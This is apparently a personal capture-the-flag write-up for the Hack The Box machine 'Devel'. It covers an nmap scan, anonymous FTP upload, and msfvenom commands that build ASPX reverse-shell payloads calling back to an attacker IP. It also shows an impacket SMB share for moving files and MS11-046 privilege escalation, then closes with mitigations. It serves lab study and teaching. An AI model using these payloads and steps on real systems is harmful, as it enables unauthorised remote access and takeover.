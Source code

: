 # DEVEL

lets run an nmap scan

```text
# Nmap 7.91 scan initiated Mon Aug  2 13:45:06 2021 as: nmap -vvv -p 21,80 -sV -sC -oN devel 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up, received syn-ack (0.099s latency).
Scanned at 2021-08-02 13:45:06 IST for 13s

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug  2 13:45:19 2021 -- 1 IP address (1 host up) scanned in 13.05 seconds
```

So we have FTP and HTTP, lets explore FTP first, looking at the welcome.png and iisstart.htm, looks like, this is where the web server is getting its content from, So, first thing I did is try to upload something onto the FTP server, which seem to have worked. So I've copied the image file and renamed it and uploaded it again on to the FTP and am able to access it from the HTTP server \(this is how I was able to confirm\)

```text
msfvenom -a x86 --payload windows/shell_reverse_tcp -f asp LHOST=10.10.14.25 LPORT=4242 -o pl.asp
```

i've tried above stuff to generate asp payload and upload it into the FTP server, but that didn't seem to have worked. So I started looking for 'IIS htm reverse shell' on Google. Meanwhile I tried fuzzing the HTTP server with asp, htm, txt extensions, only thing I've got is /aspnet\_client, we got until here, but all of them are forbidden

```text
http://10.10.10.5/aspnet_client/system_web
```

so, only thing seems like is we have to put something in the FTP and get it to run, so lets focus on that now, so I've got some link [https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/), which we can try now, we have a config file now which I'm going to try

Seems, its only showing htm file, on other extensions it just shows file not found, and now we have look if anything like this with .htm files. So I've kinda figured we can do this with .aspx files as our msfvenom payload, so lets try that now,

```text
msfvenom -a x86 --payload windows/shell_reverse_tcp -f aspx LHOST=10.10.14.25 LPORT=4242 -o pl.aspx
```

and upload this file through FTP and start a listener.

![](../../.gitbook/assets/image%20%285%29%20%282%29%20%282%29%20%282%29%20%282%29%20%281%29%20%281%29.png)

so, we got a revershell as the iis user, and not sure how I should proceed from now, So, I'll just try to upload a winpeas.exe file and run the local PrivEsc enumeration

I usually use the smbserver.py impacket thing to share the local kali drive. So, lets do that

```text
smbserver.py -u guest -password guest -smb2support kalishare $(pwd)

net use x: \\10.10.14.25\kalishare /user:guest guest
cmd /c "copy <sourcefile> X:\"
```

so, this worked, but when I try to run the winpeas.exe command, it doesn't seem to work, which is when I've realized that I've been trying to run x64 winpeas on x86 machine. Even after changing, that didn't seem to have worked, So, I'm not sure what I can do at this stage

![](../../.gitbook/assets/image%20%287%29%20%281%29%20%281%29.png)

So, I've left to try the metasploit way now, where we can search for local exploits etc \(actually this I've got from ippsec video for this specific box\), so lets try that ourselves \(generating a meterpreter shell\)

![](../../.gitbook/assets/image%20%286%29%20%281%29.png)

![](../../.gitbook/assets/image%20%282%29.png)

```text
Navigating to c:\windows\TEMP is a good idea, as a large portion
of Metasploit’s Windows privilege escalation modules require a file to be written to the target
during exploitation

Running sysinfo in the Meterpreter session reveals that the target is x86 architecture, so it is
possible to get fairly reliable suggestions with the local_exploit_suggester module. The same can
not be said for running the module on x64
```

for some reason, our meterpreter exploit suggester doesn't work as expected, so I've used the exploit directly, which worked, and we're able to get the flags

![](../../.gitbook/assets/image.png)

there is another way we can do this local privilege escalation, I've got the exe file from this repo [https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe](https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe), we can just run it on our target machine where we have IIS user to get NT Authority user

Mitigations:

Operating system should be patched to avoid this sort of Local privilege escalation exploits. And dont allow Anonymous access on FTP and also dont allow uploads on FTP if not needed


